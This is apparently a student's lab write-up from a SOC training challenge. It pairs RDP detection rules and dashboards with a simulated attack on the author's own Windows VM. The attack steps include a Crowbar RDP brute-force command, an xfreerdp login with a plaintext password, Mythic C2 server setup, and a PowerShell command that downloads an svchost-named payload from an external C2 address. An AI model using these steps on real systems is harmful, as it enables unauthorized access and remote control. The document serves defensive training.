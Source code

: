 # Week 3: Brute Force RDP Attack Simulation and Mythic C2 Setup

## Steps

### 1. Finding Exposed RDP Servers
- **Using Shodan**: Search for servers with exposed RDP on the default port.
  ![Shodan Search](https://github.com/Jacob-Brown-950/30-Day-SOC-Challenge/blob/main/Screenshots/Step%2043%20Creating%20an%20account%20with%20shodan%20and%20searching%20port%203389.PNG) 
- **Using Censys**: Perform the same search to verify results.
  ![Censys Search](link_to_your_image) 

### 2. Monitoring Failed RDP Attempts
- Created a log query for failed RDP attempts and confirmed my own failed login.
  ![Failed RDP Log Query](link_to_your_image) <!-- Replace with actual image link -->
- Generated alerts similar to earlier SSH queries.
  ![Alert Generation](link_to_your_image) <!-- Replace with actual image link -->
- Executed a brute force attack on my Windows server to generate an alert.
  ![Brute Force Alert](link_to_your_image) <!-- Replace with actual image link -->

### 3. Configuring Detection Rules
- **Detection Rule Setup**:
    - Current rules only query thresholds; need to create detection rules under **Security**.
      ![Detection Rule Setup](link_to_your_image) <!-- Replace with actual image link -->
    - Opted for preconfigured rules or created a new one to experiment.
      ![Preconfigured Rules](link_to_your_image) <!-- Replace with actual image link -->
    - Configured data involved in the new rules, mirroring the process used for SSH attempts.
      ![Configuring New Rules](link_to_your_image) <!-- Replace with actual image link -->

### 4. Data Visualization
- Created maps for new RDP data queries (following SSH attempt mapping steps).
  ![RDP Data Map](link_to_your_image) <!-- Replace with actual image link -->
- Developed tables for dashboard visualization:
    - **Failed and Successful SSH Attempts** to the exposed Ubuntu server.
      ![SSH Attempts Visualization](link_to_your_image) <!-- Replace with actual image link -->
    - **RDP Activity Tracking** on the exposed Windows server.
      ![RDP Activity Table](link_to_your_image) <!-- Replace with actual image link -->

### 5. Attack Diagram Creation
- Created an attack diagram outlining the threat actor's process.
  ![Attack Diagram](link_to_your_image) <!-- Replace with actual image link -->

### 6. Setting Up Mythic C2
- **Spin Up Ubuntu Server**:
    ```bash
    sudo apt install docker-compose
    sudo apt install make
    git clone https://github.com/its-a-feature/mythic
    cd mythic
    docker-compose up -d
    sudo systemctl restart docker
    ```
  ![Ubuntu Server Setup](link_to_your_image) <!-- Replace with actual image link -->
- Verified Docker status before restarting the service.
  ![Docker Status](link_to_your_image) <!-- Replace with actual image link -->

### 7. Starting Mythic
- Run the following command to start Mythic:
    ```bash
    make
    ./mythic-cli start
    ```
  ![Starting Mythic](link_to_your_image) <!-- Replace with actual image link -->

### 8. Configuring Mythic
- Tightened firewall rules, allowing exceptions for Windows and Ubuntu servers.
  ![Firewall Configuration](link_to_your_image) <!-- Replace with actual image link -->
- Accessed Mythic web GUI:
    - Default user: `mythic_admin`
    - Find password with:
        ```bash
        cat .env | grep -i admin_password
        ```
  ![Mythic GUI Login](link_to_your_image) <!-- Replace with actual image link -->

### 9. Preparing for the Attack
- Created a target file on the Windows VM with admin password.
  ![Target File Creation](link_to_your_image) <!-- Replace with actual image link -->
- Moved to Kali Linux's wordlists directory and prepared `rockyou.txt`:
    ```bash
    gunzip rockyou.txt.gz
    head -n 50 rockyou.txt > ~/Documents/top_50_words.txt
    ```
  ![Preparing Wordlists](link_to_your_image) <!-- Replace with actual image link -->

### 10. Brute Force with Crowbar
- Added the Windows password to the wordlist for easier access.
  ![Wordlist Modification](link_to_your_image) <!-- Replace with actual image link -->
- Installed Crowbar:
    ```bash
    sudo apt-get install -y crowbar
    ```
  ![Crowbar Installation](link_to_your_image) <!-- Replace with actual image link -->
- **Target File Setup**: 
    - Created `target.txt` containing the public IP and username:
      ```
      155.138.220.109 Administrator
      ```
  ![Target File Setup](link_to_your_image) <!-- Replace with actual image link -->

- **Brute Force Command**:
    ```bash
    crowbar -b RDP -u Administrator -C top_50_words.txt -s 155.138.220.109
    ```
  ![Brute Force Command](link_to_your_image) <!-- Replace with actual image link -->

### 11. RDP Session Access
- Used `xfreerdp` to access the RDP session:
    ```bash
    xfreerdp /u:Administrator /p:Winter2024! /v:155.138.220.109
    ```
  ![Accessing RDP Session](link_to_your_image) <!-- Replace with actual image link -->
- Executed commands for intelligence gathering:
    ```bash
    whoami
    ipconfig
    net user
    net group
    ```
  ![Command Execution](link_to_your_image) <!-- Replace with actual image link -->

### 12. Downloading and Executing Payload
- SSH into Mythic server and download agent:
    ```bash
    ./mythic-cli install github https://github.com/MythicAgents/Apollo.git
    ```
  ![Mythic Agent Download](link_to_your_image) <!-- Replace with actual image link -->

- Install HTTP profile:
    ```bash
    ./mythic-cli install github https://github.com/MythicC2Profiles/http
    ```
  ![HTTP Profile Installation](link_to_your_image) <!-- Replace with actual image link -->

- Created payload:
    - Ensured it calls back to the C2 server's public IP.
    - Downloaded the payload using:
    ```bash
    Invoke-WebRequest -Uri http://45.76.248.184:9999/svchost-SOC-Project.exe -OutFile "C:\Users\Public\Downloads\svchost-SOC-Project.exe"
    ```
  ![Payload Creation](link_to_your_image) <!-- Replace with actual image link -->

### 13. Finalizing the Attack
- Allowed HTTP connection on firewall:
    ```bash
    ufw allow 80
    ```
  ![Allowing HTTP Connection](link_to_your_image) <!-- Replace with actual image link -->
- Ran the payload on the Windows server.
  ![Payload Execution](link_to_your_image) <!-- Replace with actual image link -->
- Monitored Mythic GUI for established session and confirmed successful file extraction from the agent.
  ![Mythic GUI Session](link_to_your_image) <!-- Replace with actual image link -->

## Conclusion
This week focused on simulating a brute force RDP attack while setting up the Mythic C2 server. Key tasks included finding exposed RDP servers, configuring detection rules, and creating payloads for further exploitation.
